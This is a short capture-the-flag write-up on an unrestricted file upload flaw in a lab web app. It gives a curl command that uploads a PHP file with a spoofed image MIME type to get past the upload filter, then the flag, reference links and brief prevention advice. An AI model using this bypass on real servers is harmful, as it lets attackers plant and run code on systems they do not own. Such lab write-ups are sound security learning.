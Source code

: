 # Unrestricted File Upload 
Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed.

### Step 1
Navigate to http://0.0.0.0/?page=upload
> * try uploading image files => uploads
> * try uploading .php files => not uploaded

### Step 2 
* Attack
Use curl to upload a file by specifiying image MIME-type
> * curl -F 'Upload=submit' -F 'uploaded=@hack.php;type=image/jpeg' http://0.0.0.0/?page=upload
**The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8** 

https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

https://resources.infosecinstitute.com/php-lab-file-upload-vulnerabilities/

https://curl.haxx.se/mail/archive-2003-04/0135.html

https://medium.com/@gupta.bless/exploiting-unrestricted-file-upload-vulnerabilities-4831aa839b25

## Prevention
> * Requires extensive methods. Content-type header validation, file extension validation and the use of a file type detector
> * https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload